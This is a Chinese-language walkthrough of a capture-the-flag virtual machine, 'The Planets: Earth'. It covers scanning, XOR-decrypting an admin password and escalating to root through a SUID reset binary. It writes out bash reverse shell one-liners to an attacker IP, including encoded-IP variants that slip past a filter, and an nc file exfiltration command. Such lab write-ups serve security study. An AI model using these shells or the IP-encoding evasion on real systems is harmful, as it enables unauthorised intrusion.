# The PlanetsEarth
开启虚拟机后首先进行信息收集
nmap -sS -T4 -sV 192.168.111.1/24

访问一下web  
页面没有什么东西,显示大大的400?
修改DNS解析规则\
访问网站


没什么头绪,扫一下目录
http://earth.local/
http://terratest.earth.local

发现
/admin
/robots.txt

robots.txt文件下有testingnotes.*
尝试访问testingnotes.txt
```
测试安全消息系统注意事项：
*使用 XOR 加密作为算法，在 RSA 中使用的算法应该是安全的。
*地球已确认他们已收到我们发送的消息。
*testdata.txt用于测试加密。
*Terra 用作管理门户的用户名。
待办事项：
*我们如何安全地将每月的钥匙发送到地球？或者我们应该每周更换一次键？
*需要测试不同的按键长度以防止暴力破解。钥匙应该多长？
*需要改进消息界面和管理面板的界面，目前很基础。
```
访问testdata.txt(为异或密钥)
```
According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.
```
https://earth.local下最后一行数据
```
2402111b1a0705070a41000a431a000a0e0a0f04104601164d050f070c0f15540d1018000000000c0c06410f0901420e105c0d074d04181a01041c170d4f4c2c0c13000d430e0e1c0a0006410b420d074d55404645031b18040a03074d181104111b410f000a4c41335d1c1d040f4e070d04521201111f1d4d031d090f010e00471c07001647481a0b412b1217151a531b4304001e151b171a4441020e030741054418100c130b1745081c541c0b0949020211040d1b410f090142030153091b4d150153040714110b174c2c0c13000d441b410f13080d12145c0d0708410f1d014101011a050d0a084d540906090507090242150b141c1d08411e010a0d1b120d110d1d040e1a450c0e410f090407130b5601164d00001749411e151c061e454d0011170c0a080d470a1006055a010600124053360e1f1148040906010e130c00090d4e02130b05015a0b104d0800170c0213000d104c1d050000450f01070b47080318445c090308410f010c12171a48021f49080006091a48001d47514c50445601190108011d451817151a104c080a0e5a
```
解密得出密码:
earthclimatechangebad4humans

命令执行尝试直接找flag
find / -name "*flag*"


尝试获得shell权限
反弹shell,kali上监听
```
bash -i >& /dev/tcp/192.168.111.128/4444 0>&1
```
提示不允许远程连接

做了ip限制
将ip转换
```
bash -i >& /dev/tcp/3232264064/4444 0>&1
bash -i >& /dev/tcp/0xC0A86F80/4444 0>&1
bash -i >& /dev/tcp/11000000101010000110111110000000/4444 0>&1
```
尝试suid提权
```
find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null
```
发现密码重置文件



直接执行报错
```
检查是否存在重置触发器...
重置失败，所有触发器都不存在。
```
将文件传输到kali中
```
kali: nc -lvnp 6666 >rest_root
shell: nc 192.168.111.128 6666 < /usr/bin/reset_root
```
使用strace跟踪进程,发现缺失三个文件

在shell上创建这三个文件
```
/dev/shm/kHgTFI5G
/dev/shm/Zw7bV9U5
/tmp/kcM0Wewe
```
再次执行

切换root,获得flag
